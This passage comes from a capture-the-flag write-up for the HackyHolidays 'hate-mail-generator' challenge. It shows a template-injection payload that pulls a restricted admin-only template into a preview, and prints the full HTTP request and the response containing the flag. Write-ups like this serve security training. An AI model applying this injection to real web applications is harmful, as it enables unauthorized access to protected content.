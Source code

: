 + So, another method which can be handy in this type of situation will be reference based exploit. In reference based exploit, we can insert the file "38dhs_admins_only_header.html" inside email parameter on preview_data parameter and just call {{email}} on preview_markup directly to check what will be the output and thus, it was exploited successfully.

**Request**

```http
POST /hate-mail-generator/new/preview HTTP/1.1
Host: hackyholidays.h1ctf.com
Connection: close
Content-Length: 106
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://hackyholidays.h1ctf.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://hackyholidays.h1ctf.com/hate-mail-generator/new
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8

preview_markup={{email}}&preview_data={"name":"aaaa","email":"{{template:38dhs_admins_only_header.html}}"}
```


**Response**

```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Thu, 31 Dec 2020 12:28:45 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 339

<html>
<body>
<center>
    <table width="700">
        <tr>
            <td height="80" width="700" style="background-color: #64d23b;color:#FFF" align="center">Grinch Network Admins Only</td>
        </tr>
        <tr>
            <td style="padding:20px 10px 20px 10px">
                <h4>flag{5bee8cf2-acf2-4a08-a35f-b48d5e979fdd}</h4>
```
